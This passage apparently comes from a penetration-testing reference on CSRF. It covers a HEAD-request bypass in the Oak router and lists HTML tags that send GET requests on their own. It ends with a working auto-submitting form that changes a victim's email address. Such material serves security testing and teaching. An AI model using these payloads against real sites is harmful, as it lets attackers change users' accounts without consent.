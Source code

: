 ### **HEAD method bypass**

The first part of [**this CTF writeup**](https://github.com/google/google-ctf/tree/master/2023/web-vegsoda/solution) is explained that [Oak's source code](https://github.com/oakserver/oak/blob/main/router.ts#L281), a router is set to **handle HEAD requests as GET requests** with no response body - a common workaround that isn't unique to Oak. Instead of a specific handler that deals with HEAD reqs, they're simply **given to the GET handler but the app just removes the response body**.

Therefore, if a GET request is being limited, you could just **send a HEAD request that will be processed as a GET request**.

## **Exploit Examples**

### **Exfiltrating CSRF Token**

If a **CSRF token** is being used as **defence** you could try to **exfiltrate it** abusing a [**XSS**](xss-cross-site-scripting/#xss-stealing-csrf-tokens) vulnerability or a [**Dangling Markup**](dangling-markup-html-scriptless-injection/) vulnerability.

### **GET using HTML tags**

```xml
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```

Other HTML5 tags that can be used to automatically send a GET request are:

```html
<iframe src="..."></iframe>
<script src="..."></script>
<img src="..." alt="">
<embed src="...">
<audio src="...">
<video src="...">
<source src="..." type="...">
<video poster="...">
<link rel="stylesheet" href="...">
<object data="...">
<body background="...">
<div style="background: url('...');"></div>
<style>
  body { background: url('...'); }
</style>
<bgsound src="...">
<track src="..." kind="subtitles">
<input type="image" src="..." alt="Submit Button">
```

### Form GET request

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="GET" action="https://victim.net/email/change-email">
      <input type="hidden" name="email" value="some@email.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
